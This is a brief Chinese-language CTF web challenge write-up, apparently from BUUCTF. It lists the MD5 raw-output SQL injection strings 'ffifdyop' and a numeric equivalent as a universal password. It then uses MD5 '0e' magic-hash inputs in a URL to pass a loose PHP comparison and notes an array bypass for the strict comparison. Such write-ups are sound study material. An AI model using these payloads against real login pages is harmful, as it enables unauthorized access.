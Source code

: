 ```
ffifdyop
129581926211651571912466741651878684928
```

这两个 payload md5 加密后生成的二进制字符里包含万能密码

输入提交

![](assets/202208241605370-1700744514803265.png)

右键查看源代码

![](assets/202208241605865-1700744514803267.png)

md5 0e 漏洞

```
http://b7c25771-6bbd-44e3-ac5d-5ead5de06174.node4.buuoj.cn:81/levels91.php?a=QNKCDZO&b=240610708
```

之后又跳转到一个页面

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208241607562.png)

强类型比较, 0e 开头的字符串不会被自动转换成科学计数法了

但是可以换成数组绕过, 之前也遇到过

![](assets/202208241612093-1700744514803271.png)
